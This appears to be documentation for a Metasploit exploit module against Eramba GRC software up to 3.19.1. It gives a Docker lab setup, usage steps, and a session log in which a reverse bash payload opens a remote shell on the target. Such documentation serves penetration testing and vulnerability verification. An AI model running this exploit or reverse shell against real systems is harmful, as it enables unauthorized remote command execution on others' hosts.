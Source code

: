 ## Vulnerable Application

Eramba is open and free GRC software, used by many companies. It offer mainly risk management solution. Version up to 3.19.1 is vulnerable to authenticated remote command execution. It is neccessary to provide valid credentials. The application allows to execute arbitrary OS commands, which can lead to remote access. Application is available in [Docker format](https://www.eramba.org/learning/courses/12/episodes/274). However, after installation, debug mode needs to be enabled. Here's modified Docker compose file for simpler testing (`docker-compose.simple-install.yml`):

```
version: '3.19'
services:
  mysql:
    container_name: mysql
    image: mysql:8.0.28-oracle
    command: ["mysqld", "--disable-log-bin"]
    restart: always
    volumes:
      - db-data:/var/lib/mysql
      - ./mysql/conf.d:/etc/mysql/conf.d
      - ./mysql/entrypoint:/docker-entrypoint-initdb.d
    environment:
      MYSQL_DATABASE: ${DB_DATABASE}
      MYSQL_USER: ${DB_USERNAME}
      MYSQL_PASSWORD: ${DB_PASSWORD}
      MYSQL_ROOT_PASSWORD: ${MYSQL_ROOT_PASSWORD}
  redis:
    container_name: redis
    image: redis:6.0.16-alpine
    restart: always
  eramba:
    container_name: eramba
    image: ghcr.io/eramba/eramba:3.19.1
    restart: always
    ports:
      - 8443:443
    volumes:
      - data:/var/www/eramba/app/upgrade/data
      - app:/var/www/eramba
      - logs:/var/www/eramba/app/upgrade/logs
      - ./apache/ssl/mycert.crt:/etc/ssl/certs/mycert.crt
      - ./apache/ssl/mycert.key:/etc/ssl/private/mycert.key
      - ./apache/security.conf:/etc/apache2/conf-available/security.conf
      - ./apache/ports.conf:/etc/apache2/ports.conf
      - ./apache/vhost-ssl.conf:/etc/apache2/sites-available/000-default.conf
      - ./crontab/crontab:/etc/cron.d/eramba-crontab
    environment:
      DB_HOST: ${DB_HOST}
      DB_DATABASE: ${DB_DATABASE}
      DB_USERNAME: ${DB_USERNAME}
      DB_PASSWORD: ${DB_PASSWORD}
      CACHE_URL: ${CACHE_URL}
      USE_PROXY: ${USE_PROXY}
      PROXY_HOST: ${PROXY_HOST}
      PROXY_PORT: ${PROXY_PORT}
      USE_PROXY_AUTH: ${USE_PROXY_AUTH}
      PROXY_AUTH_USER: ${PROXY_AUTH_USER}
      PROXY_AUTH_PASS: ${PROXY_AUTH_PASS}
      PUBLIC_ADDRESS: ${PUBLIC_ADDRESS}
      DOCKER_DEPLOYMENT: ${DOCKER_DEPLOYMENT}
      LDAPTLS_REQCERT: ${LDAPTLS_REQCERT}
    links:
      - mysql
      - redis
    depends_on:
      - mysql
  cron:
    container_name: cron
    image: ghcr.io/eramba/eramba:3.19.1
    command: ["cron", "-f"]
    entrypoint: ["/docker-cron-entrypoint.sh"]
    restart: always
    volumes:
      - data:/var/www/eramba/app/upgrade/data
      - app:/var/www/eramba
      - logs:/var/www/eramba/app/upgrade/logs
      - ./docker-cron-entrypoint.sh:/docker-cron-entrypoint.sh
      - ./crontab/crontab:/etc/cron.d/eramba-crontab
      - .env:/var/www/docker.env
    environment:
      DB_HOST: ${DB_HOST}
      DB_DATABASE: ${DB_DATABASE}
      DB_USERNAME: ${DB_USERNAME}
      DB_PASSWORD: ${DB_PASSWORD}
      CACHE_URL: ${CACHE_URL}
      USE_PROXY: ${USE_PROXY}
      PROXY_HOST: ${PROXY_HOST}
      PROXY_PORT: ${PROXY_PORT}
      USE_PROXY_AUTH: ${USE_PROXY_AUTH}
      PROXY_AUTH_USER: ${PROXY_AUTH_USER}
      PROXY_AUTH_PASS: ${PROXY_AUTH_PASS}
      PUBLIC_ADDRESS: ${PUBLIC_ADDRESS}
      DOCKER_DEPLOYMENT: ${DOCKER_DEPLOYMENT}
      LDAPTLS_REQCERT: ${LDAPTLS_REQCERT}
    links:
      - mysql
      - redis
      - eramba
    depends_on:
      - eramba
volumes:
  app:
  data:
  logs:
  db-data:
```

## Verification Steps

1. use exploit/linux/http/eramba_rce
2. set RHOSTS [target IP]
3. set LHOST [attacker's IP]
4. set USERNAME [username]
5. set PASSWORD [password]
6. exploit

## Options

### USERNAME

A valid username for Eramba application

### PASSWORD 

A valid password for Eramba application

## Scenarios

```
msf6 > use exploit/linux/http/eramba_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/eramba_rce)> set RHOSTS 192.168.95.145
RHOSTS => 192.168.95.145
msf6 exploit(linux/http/eramba_rce)> set LHOST 192.168.95.142
LHOST => 192.168.95.142
msf6 exploit(linux/http/eramba_rce)> set USERNAME admin
USERNAME => admin
msf6 exploit(linux/http/eramba_rce)> set PASSWORD P4ssw0rd!
PASSWORD => P4ssw0rd!
msf6 exploit(linux/http/eramba_rce) > exploit
[*] Started reverse TCP handler on 192.168.95.142:4444 
[*] Command shell session 1 opened (192.168.95.142:4444 -> 192.168.95.145:38460) at 2025-03-13 12:31:26 +0100
id

uid=33(www-data) gid=33(www-data) groups=33(www-data)


```

